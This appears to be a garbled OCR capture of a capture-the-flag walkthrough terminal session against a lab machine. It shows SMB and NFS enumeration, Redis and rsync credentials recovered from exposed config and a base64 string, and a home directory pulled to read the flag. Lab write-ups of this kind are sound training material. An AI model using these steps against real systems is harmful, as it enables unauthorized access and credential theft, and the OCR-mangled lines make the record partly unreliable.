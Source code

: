 ┌──(root㉿kali)-[~]
└─# sudo smbclient -L 10.10.21.154
Password for [WORKGROUP\root]:

    Sharename       Type      Comment
    ---------       ----      -------
    print$          Disk      Printer Drivers
    shares          Disk      VulnNet Business Shares
    IPC$            IPC       IPC Service (vulnnet-internal server (Samba, Ubuntu))
Reconnecting with SMB1 for workgroup listing.

    Server               Comment
    ---------            -------

    Workgroup            Master
    ---------            -------
    WORKGROUP     
──(root㉿kali)-[~]
└─# smbclient //10.10.21.154/shares
Password for [WORKGROUP\root]:
Try “help” to get a list of possible commands.

smb: > ls
. D 0 Tue Feb 2 14:50:09 2021
… D 0 Tue Feb 2 14:58:11 2021
temp D 0 Sat Feb 6 17:15:10 2021
data D 0 Tue Feb 2 14:57:33 2021
cd dat
11309648 blocks of size 1024. 3277596 blocks available

smb: \temp> ls
. D 0 Sat Feb 6 17:15:10 2021
… D 0 Tue Feb 2 14:50:09 2021
services.txt N 38 Sat Feb 6 17:15:09 2021
cat servid
11309648 blocks of size 1024. 3277360 blocks available
smb: \temp> get services.txt
getting file \temp\services.txt of size 38 as services.txt (0.0 KiloBytes/sec) (average 0.0 KiloBytes/sec)

showmount -e 10.10.238.66
Export list for 10.10.238.66:
/opt/conf *

└─$ tree
.
├── hp
│ └── hplip.conf
├── init
│ ├── anacron.conf
│ ├── lightdm.conf
│ └── whoopsie.conf
├── opt
├── profile.d
│ ├── bash_completion.sh
│ ├── cedilla-portuguese.sh
│ ├── input-method-config.sh
│ └── vte-2.91.sh
├── redis
│ └── redis.conf
├── vim
│ ├── vimrc
│ └── vimrc.tiny
└── wildmidi
└── wildmidi.cfg

7 directories, 12 files

inside redis file we got
requirepass “B65Hx562F@ggAZ@F”

──(root㉿kali)-[/]
└─# echo QXV0aG9yaXphdGlvbiBmb3IgcnN5bmM6Ly9yc3luYy1jb25uZWN0QDEyNy4wLjAuMSB3aXRoIHBhc3N3b3JkIEhjZzNIUDY3QFRXQEJjNzJ2Cg== | base64 -d
Authorization for rsync://rsync-connect@127.0.0.1 with password Hcg3HP67@TW@Bc72v

┌──(root㉿kali)-[/rsync]
└─# rsync --list-only rsync://rsync-connect@10.10.65.34/files
Password:
drwxr-xr-x 4,096 2021/02/01 18:21:14 .
drwxr-xr-x 4,096 2021/02/06 18:19:29 sys-internal

┌──(root㉿kali)-[/rsync]
└─# rsync --list-only rsync://rsync-connect@10.10.65.34/files/sys-internal/
Password:
drwxr-xr-x 4,096 2021/02/06 18:19:29 .
-rw------- 61 2021/02/06 18:19:28 .Xauthority
lrwxrwxrwx 9 2021/02/01 19:03:19 .bash_history
-rw-r–r-- 220 2021/02/01 18:21:14 .bash_logout
-rw-r–r-- 3,771 2021/02/01 18:21:14 .bashrc
-rw-r–r-- 26 2021/02/01 18:23:18 .dmrc
-rw-r–r-- 807 2021/02/01 18:21:14 .profile
lrwxrwxrwx 9 2021/02/02 19:42:29 .rediscli_history
-rw-r–r-- 0 2021/02/01 18:24:03 .sudo_as_admin_successful
-rw-r–r-- 14 2018/02/13 00:39:01 .xscreensaver
-rw------- 2,546 2021/02/06 18:19:35 .xsession-errors
-rw------- 2,546 2021/02/06 17:10:13 .xsession-errors.old
-rw------- 38 2021/02/06 17:24:25 user.txt
drwxrwxr-x 4,096 2021/02/02 14:53:00 .cache
drwxrwxr-x 4,096 2021/02/01 18:23:57 .config
drwx------ 4,096 2021/02/01 18:23:19 .dbus
drwx------ 4,096 2021/02/01 18:23:18 .gnupg
drwxrwxr-x 4,096 2021/02/01 18:23:22 .local
drwx------ 4,096 2021/02/01 19:07:15 .mozilla
drwxrwxr-x 4,096 2021/02/06 17:13:14 .ssh
drwx------ 4,096 2021/02/02 16:46:16 .thumbnails
drwx------ 4,096 2021/02/01 18:23:21 Desktop
drwxr-xr-x 4,096 2021/02/01 18:23:22 Documents
drwxr-xr-x 4,096 2021/02/01 19:16:46 Downloads
drwxr-xr-x 4,096 2021/02/01 18:23:22 Music
drwxr-xr-x 4,096 2021/02/01 18:23:22 Pictures
drwxr-xr-x 4,096 2021/02/01 18:23:22 Public
drwxr-xr-x 4,096 2021/02/01 18:23:22 Templates
drwxr-xr-x 4,096 2021/02/01 18:23:22 Videos

┌──(root㉿kali)-[/rsync]
└─# rsync rsync://rsync-connect@10.10.65.34/files/sys-internal/user.txt /rsync/
Password:

┌──(root㉿kali)-[/rsync]
└─# ls
user.txt

┌──(root㉿kali)-[/rsync]
└─# cat user.txt
THM{da7c20696831f253e0afaca8b83c07ab}